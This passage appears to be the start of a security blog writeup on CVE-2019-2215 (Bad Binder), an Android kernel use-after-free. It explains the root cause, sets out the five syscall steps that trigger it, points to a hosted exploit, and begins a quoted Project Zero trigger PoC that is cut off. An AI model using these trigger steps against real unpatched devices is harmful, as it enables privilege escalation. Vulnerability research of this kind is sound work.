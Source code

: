 ```yaml
---
title: CVE-2019-2215 Bad Binder Writeup
date: 2023-05-27
categories: [android_kernel]
tags: [nday, iovec, addr_limit]
mermaid: true
---
```


# Overview

Bad Binder (`CVE-2019-2215`) is a `UaF` in `Binder` (Android IPC) and `epoll` (Async IO). This blog will go over why there is use-after-free (UaF) and how we can use UaF to achieve arbitrary read/write and perform a Privilege Escalation (PE).

# Exploit

Exploit for this writeup will be hosted [here](https://github.com/elbiazo/CVE-2019-2215)

# Environment Setup

Since this bug is in `Binder` and doesn't require vendor specific kernel module, we can use `goldfish` kernel in `AVD` (Android Emulator Virtual Devices). It will be for `Intel x64` CPU but it should work with `Arm` CPU with minor update since this exploit is data only. Things like fields in structure might be different. [HackSysTeam's Bad Binder Exploitation Workshop](https://cloudfuzz.github.io/android-kernel-exploitation/chapters/environment-setup.html). Have good tutorial on how to set this environment.

# Root Cause Analysis

## TL;DR Summary

1. `fd = open("/dev/binder", O_RDONLY);` Allocates `binder_thread.wait` which is linked list.
2. `epfd = epoll_create(1000);` Creates `epoll` structure.
3. `epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);` Will create `epoll_entry` and set `epoll_entry.whead` to point to `binder_thread.wait`
4. `ioctl(fd, BINDER_THREAD_EXIT, NULL);` **Frees** `binder_thread.wait`. Problem is `epoll_entry.whead` still points to `binder_thread.wait`.
5. `epoll_ctl(epfd, EPOLL_CTL_DEL, fd, NULL);` Will try to **unlink** `epoll_entry` by calling `__list_del()`. This **unlinking** gives you ability to write `0x10` bytes to where `binder_thread.wait` was.


## [Trigger PoC](https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html)

```c
// From Project Zero blog 
// https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html

#include <fcntl.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <unistd.h>

#define BINDER_THREAD_EXIT 0x40046208ul

int main()

```
